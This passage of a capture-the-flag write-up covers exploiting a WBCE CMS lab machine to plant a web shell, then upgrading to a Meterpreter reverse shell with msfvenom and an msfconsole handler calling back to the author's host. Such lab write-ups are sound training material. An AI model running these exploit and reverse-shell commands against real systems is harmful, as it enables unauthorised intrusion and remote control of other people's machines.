After downloading and modifying the script to fix indentation errors, I executed it:

```bash
python wbce-cms-exploit.py http://10.10.214.82 admin 123456
```

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113134749.png)

The exploit successfully created a web shell located at `http://10.10.214.82/media/shell.inc`. I confirmed access by running a `id` command, which return the user running this application:

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113134839.png)

---

## Step 5: Upgrading to a Reverse Shell

To gain a more interactive shell, I generated a reverse shell payload with `msfvenom`:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.6.10.13 LPORT=4242 -f elf > reverse.elf
```

With `msfconsole` set up on my local machine, I configured it to listen for connections on port 4242:

```bash
msfconsole -q
use exploit/multi/handler
set LHOST 10.6.10.13
set LPORT 4242
set payload linux/x86/meterpreter/reverse_tcp
exploit
```

Now I could upload  `reverse.elf` to the machine.

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113135109.png)

After uploading this file via the CMS’s media tool, I executed `chmod +x reverse.elf` and `/reverse.elf` on the web shell:

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113135241.png)

I successfully established a Meterpreter session, gaining more control over the environment.

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113135622.png)

I look into `home` directory, looking for users and found the second flag on the developer home directory

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113135954.png)

---

## Step 6: Investigating SSH Keys in Developer Home Directory
